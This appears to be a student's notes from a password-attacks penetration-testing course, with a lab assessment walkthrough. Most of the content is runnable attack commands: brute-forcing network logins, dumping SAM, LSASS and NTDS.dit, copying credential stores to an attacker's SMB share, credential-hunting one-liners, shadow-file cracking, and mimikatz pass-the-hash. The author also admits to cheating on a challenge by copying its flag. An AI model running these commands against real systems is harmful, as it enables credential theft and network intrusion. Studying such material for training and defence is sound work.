

# Password Attacks

# Windows login

LSASS - Local Security Authority Subsystem Service is responsible for the local system security policy, user authentication, and sending security audit logs to the Event log

SAM Database - Contains hashed passwords on windows

NTDS - Explained later

# John

Capable of identifying hash type in most instances. Can set rules and wordlists.&#x20;

\--incremental tries to brute force every letter. Very time intensive

Files - Files such as zip or shh.pub need to be converted first with the respective 2john method.

# Network Services

CrackMapExec can be used to crack winrm smb and ssh.

```
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

evil-winrm - Used to simplify commands over powshell like download and upload. Needs a password

```
evil-winrm -i <target-IP> -u <username> -p <password>
```

Hydra can obvs be used to brute forcing applications like ssh or rdp

Smbmap is good

# Rules and mutated lists

```
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

This module had the worse challenge I have ever seen in my life. You create a wordlist 50K plus in length and are supposed to brute force ftp to get the password. The vpn connection if not stable enough to handle multiple threads so this would take DAYS! I found this [resource ](https://www.scribd.com/document/814507639/Password-Attacks)that gives you the flag. It  is entirely unnessesary to have this challenge be so verbose. They should have given a hash to crack instead. I don't feel bad about cheating this one!

# Attacking SAM

<figure><figcaption></figcaption></figure>

Reg.exe can creat backups on hives.&#x20;

```cmd-session
reg.exe save hklm\security C:\security.save
```

Create a SMB server on our linux machine

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <SHARE_NAME<SHARE_LOCATION>
```

On windows

```cmd-session
move sam.save \\172.20.165.32\testShare
```

On linux dump the secrets

```shell-session
python3 SY -sam sam.save -security security.save -system system.save LOCAL
```

Cracking the hashes

```shell-session
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

Remote dumpting

```shell-session
crackmapexec smb 10.129.202.137 --local-auth -u bob -p HTB_@cademy_stdnt! --sam/lsa
```

Sam stores the passwords and LSA checks them but it is possible to leak LSA passwords too!

As a side project I dumped my SAM hashes on my local machine added my password to the rockyou.txt list and cracked it!

# Attacking LSASS

Create a dump file in task manager of Local Security Auth Process. I have LSAP protection on so I could not do this without a restart.

Can also to this in  pw. Also blocked on my device

```powershell-session
Get-Process lsass
```

```powershell-session
rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
```

Pypykatz can be used to proccess the memory dump and look for juicy info

```shell-session
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

And can use hashcat to crack these NT hashes -m 1000.

# Attacking Active Directory & NTDS.dit

username-anarchy can be used to generate potential usernames for names.

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

Use crackmapexec to brute force passwords

Now we have a password lets use evilwinrm to connect

```shell-session
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Create shadow of C drive

```shell-session
vssadmin CREATE SHADOW /For=C:
```

Copy NTDS.dit

```shell-session
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

```shell-session
cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

Alternatively you can exract like this

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

If hash cracking if unsuccessful we can try to use the hash itslf to authenticate

```shell-session
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

It is worthy to note that it is default behaviour for accounts  to be locked out is too mnay attempts are tried so this bruteforcing attempt will not work in a real world setting.

# Credential Hunting in Windows

```cmd-session
start lazagne.exe all
```

```cmd-session
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

<figure><figcaption></figcaption></figure>

# Credential Hunting in Linux

```shell-session
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

```shell-session
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

```shell-session
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

```shell-session
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

```shell-session
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

```shell-session
tail -n5 /home/*/.bash*
```

```shell-session
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

```shell-session
sudo python3 mimipenguin.py
```

This tool seraches memory for passwords needs root though

```shell-session
sudo python2.7 laZagne.py all/browsers
```

# Passwd, Shadow & Opasswd

```shell-session
sudo cat /etc/security/opasswd
```

Contains old passwords can be used to make a wordlist

```shell-session
cp /etc/passwd /tmp/passwd.bak 
cp /etc/shadow /tmp/shadow.bak 
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```

```shell-session
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

For this challenge there was a shadow backup file.

# Pass the Hash (PtH)

Windows NTLM - Passwords are not salted so PtH is possible

Mimikatz

```cmd-session
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

```
sekurlsa::logonpasswords
```

Linux PtH

```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

```shell-session
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

```shell-session
evil-winrm -i 10.129.38.61 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

RDP

Need to allow it with reister first

```cmd-session
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Now connect

```shell-session
xfreerdp  /v:10.129.38.61 /u:Administrator /pth:30B3783CE2ABF1AF70F77D0660CF3453
```

```
mimikatz.exe privilege::debug "sekurlsa::pth /user:david /rc4:c39f2beb3d2ec06a62cb887fb391dee0 /domain:. /run:cmd.exe" exit
```


COME BACK AND FINISH THE PTH STUFF!!!!!!!!!!!!!!!!!!!


# Assesment

## Easy

Nmap scan shows ssh on port 22 and ftp on port 2

First lets try bruteforce the ftp login. And we get credentials for mike.

Lets login and look around the ftp share. We find ssh keys. We use them to login and find the root password in .bash\_history. Easy!

## Medium

There is ssh on port 22 and a samba share. Running crackmap we find creds for john. john:123456

In there we find a password protected zip file which we can crack with hashcat and a mutated wordlist. Inside we find a word document that we need to crack again!. Once we do that we get setup instructions and the root password.

Ssh and we find mysql login details. In there we find a bunch of paswords. We are able to get dennises password.  After we login we see ssh keys lets move them to our machine and try use them. We need a password! Back to john

And we get the passoword with hashcat almost imediately.

We can now login as root and get the flag!

## Hard

Nmap shows us a lot.

Starting off we brute force smb with the username johanna and mutated passowrd list.

We get a password but we cant do anything with it I try an rid-brute. We find a user david lets try the same tactic to brute force his password.

While we do this lets try to rdp with the same password. And we get in!!

We find a keepass database we can extract the hash with john to crack it. Once we are in we see davids password! Lets look at his smb share now and we find a vhd backup lets mount it!

It fails because we need a password. Extracting the hash took a long time to figure out but what we do is the follows:

```
modprobe nbd
sudo qemu-nbd -c /dev/nbd0 Backup.vhd
sudo dd if=/dev/nbd0p2 of=bitlocker.img bs=512
bitlocker2john -i bitlocker.img
```

We can now use hashcat to crack this hash and we get the password!

Lets mount the drive now and look around.&#x20;

We find a SAM ad SYSTEM register lovely! Lets extract the hashes and crack. And we get the admin password!!

Lets log in via rdp and grab the flag!

For all our hard work all we get is one cube very sad :(

PWNDDD
